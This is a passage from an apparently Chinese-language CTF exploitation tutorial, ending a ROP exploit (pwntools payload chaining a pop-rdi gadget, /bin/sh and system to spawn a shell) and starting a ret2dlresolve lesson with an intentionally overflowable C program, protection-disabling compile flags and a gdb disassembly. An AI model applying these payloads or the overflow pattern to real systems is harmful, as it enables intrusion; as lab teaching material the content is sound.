 ```bash

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(stop_gadget)

#pwnlib.gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload)
p.interactive()
```

## ret2dlresolve

### 利用

源码：

```bash
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

编译：

```bash
gcc -fno-stack-protector -m32 -z norelro -no-pie resolve.c -o resolve32
```

gdb 调试

```bash
$disass main
...
   0x08048564 <+101>:   lea    eax,[ebp-0x6c]
   0x08048567 <+104>:   push   eax
   00x08048568 <+105>:  call   0x8048390 <strlen@plt>
...
```
